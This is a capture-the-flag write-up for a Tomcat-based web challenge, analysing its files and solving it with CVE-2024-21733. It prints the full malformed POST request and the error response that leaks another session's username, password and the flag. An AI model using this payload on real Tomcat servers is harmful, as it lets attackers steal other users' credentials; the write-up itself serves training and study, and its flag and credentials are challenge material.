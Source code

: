# TASK INFO
Task Author: LOLASL

Writeup author: Raresh1t (SIFI)

CVE exploited: Sensitive Information leak in Apache Tomcat available through version 9.0.43

CVE-2024-21733


**Task text:** 

*Hey carnal, sometimes you gotta slide in a little extra something for the homies. Theres a placa looking every minute so keep it tight, ese.*

The task theme is based on the movie "Blood In Blood Out" released in 1993, focusing on the Vatos Locos gang in Los Angeles in 1970s California.

# File analysis
**Attached file:**
A gzip archive is attached with the task. (bloodinbloodout.tar.gz)
Unzipping this archive extracts a folder named "source" which contains 5 files and 1 other directory.

**Dockerfile:** Contains the docker instancing instructions. Exposes port 8443. Finishes by running run.sh

**run.sh:** Simple shell file which starts the Catalina container, then runs victim.sh.

**victim.sh:** A shell script which continually performs an admin login towards localhost:8443/welcome.jsp every minute. (*This script is referenced from the second task
sentence: "a placa looking every minute"*)
This file contains a variable COOKIES, which holds the string: "JSESSIONID=EFC6BC3B39449C34A07AAEED1E9BE69A"

The main part of the script is a function "simulate_admin_login()" containing an always-true while loop which performs a curl request to the specified endpoint, then sleeps for 60 seconds and then performs another, indefinitely.
The file we were given contains placeholders for association, username, and password which are likely key parts needed to obtain the flag.

**server.xml**: This is the main server configuration for the Tomcat server, and contains some defined instructions. The most important detail of this file is that a Connector to port 8443 is defined, along with a keystore file with the alias "tomcat" with the key to the keystore file defined as "yoyoma"
```
<Connector port="8443" protocol="HTTP/1.1"
           connectionTimeout="20000"
           scheme="https"
           secure="true"
           SSLEnabled="true"
           keyAlias="tomcat"
           keystoreFile="conf/ssl/selfsigned.jks"
           keystorePass="yoyoma"
           clientAuth="false" />
```
Another interesting piece is a Valve defined as a log collector which stores localhost access logs in the directory "logs" as the file "localhost_access_logs.txt".
```
        <Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```
**selfsigned.jks**: This is the java keystore file, which we know from the server.xml configuration is protected with the string "yoyoma". This key can be used to decrypt TLS-encrypted traffic for the Connector port 8443 as it was used to configure the Connector port in the server configuration.

**Directory ROOT:** This directory contains the two files which are present on the webpage: "index.jsp" and "welcome.jsp". Index is the front page with the login screen, and welcome is the JavaServer page which is called from index.jsp when a login action is POSTed.

**index.jsp**: Nothing special here. Just the login page containing the form which requires all 3 parameters, and calls on welcome.jsp for POST requests.

**welcome.jsp**: The page which handles POST requests. It stores the provided username and password parameters from the request as strings and does a simple if-statement with a logical AND operator to check if both values are equal to some hard-coded value. If they are, you get the flag. If not, you get "Hey Cinderella, go find yourself a fella!" which is a known quote from the movie the task is based on.
```
    String username = request.getParameter("username");
    String password = request.getParameter("password");

    if("placeholderuser".equals(username) && "placeholderpassword".equals(password)) {
        out.println("<h3>EPT{this_is_a_placeholder_flag}</h3>");
    } else {
        out.println("<h3>Hey Cinderella, go find yourself a fella!</h3>");
    }
    %>

```

With all this in mind we need to find out where we can get these correct values to login and get the flag.
# Web Analysis
This task is simply a web-exploit challenge, however there are a few pitfalls which are easy to get lost in.

The task is running on an ondemand service (a VM) which has an Apache Tomcat server running with a Catalina container. The server presents you with a simple login screen for "San Quentin". San Quentin is a state prison in California which matches the theme of the task.

The login page has 3 input parameters: one association, one username, and one password.
The association parameter is a dropdown menu with 4 options, which is a required parameter: Los Angeles Police Department, Black Guerilla Army (BGA), The Aryan Vanguard, and La Onda. These are all significant groups which are tied to the movie.
Username and password are simply text input fields, but as identified in the file analysis they are also required parameters.

# Pitfall 1
An attempted brute force is not recommended for this task. You could be lucky as the correct username and password are related to the movie, however it is not an intended solution. 
# Pitfall 2
The biggest pitfall in this task is the idea that you need to attack victim.sh. Port 8443 is not open externally. (Checked with an Nmap scan and attempted connections.)

You can not intercept or capture the traffic this script is generating as it is only sending traffic locally. This also removes the entire need for the keystore file. You could use it to decrypt traffic, but you can't intercept the traffic which you would need to decrypt.

(Atleast as far as I know.)

# Solution
This task was simply solved with a sensitive information leak through an error response when the server handles a request.
```
"POST /welcome.jsp HTTP/1.1
Host: 10.128.2.173
Cookie: JSESSIONID=D250017936541CC7182F4309877D54D4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://10.128.2.173
Referer: https://10.128.2.173/index.jsp
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: keep-alive

association=Black"&username"&username=ls&password=%26password"
```
**association=Black"&username"&username=ls&password=%26password**

The response from the server indicates a successful request, however the server has received an error and leaked an error which has occurred when attempting to process a bad request.
```
HTTP/1.1 200
Content-Type: text/html;charset=UTF-8
Content-Length: 1224
Date: Sat, 02 Nov 2024 17:24:59 GMT
Keep-Alive: timeout=20
Connection: keep-alive
<!DOCTYPE html> <html> <head> <meta charset="UTF-8"> <title>Welcome to San Quentin</title> <style> body { background: url('https://dannytrejo.com/wp-content/uploads/2016/06/blood-in-blood-out-danny-trejo-crew.jpg') no-repeat center center fixed; background-size: cover; color: #fff; font-family: 'Arial', sans-serif; height: 100vh; display: flex; justify-content: center; align-items: center; } .welcome-container { text-align: center; background: rgba(0, 0, 0, 0.7); padding: 30px; border-radius: 10px; width: 350px; box-shadow: 0 4px 10px rgba(0, 0, 0, 0.5); } .welcome-container h1 { font-size: 24px; color: #ff4500; text-transform: uppercase; letter-spacing: 2px; } .welcome-container img { width: 100px; margin-bottom: 20px; } </style> </head>
<body> <div class="welcome-container"> <h3>Hey Cinderella, go find yourself a fella!</h3> </div> </body>
HTTP/1.1 400
Content-Type: text/html;charset=utf-8
Content-Language: en
Transfer-Encoding: chunked
Date: Sat, 02 Nov 2024 17:24:59 GMT
Connection: close 2000
<!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head>
<body><h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in method name [ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato19690x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00"
```

Providing a malformed input causes the server to leak the hardcoded credentials in the request handling:
```
<h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b>
Invalid character found in method name
[ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato1969
```
**username=paco&amp;password=carnalvato1969**

Logging in with **username = paco** and **password = carnalvato1969** reveals the flag:

**EPT{vatos_locos_4_ever_ese!_<3}**
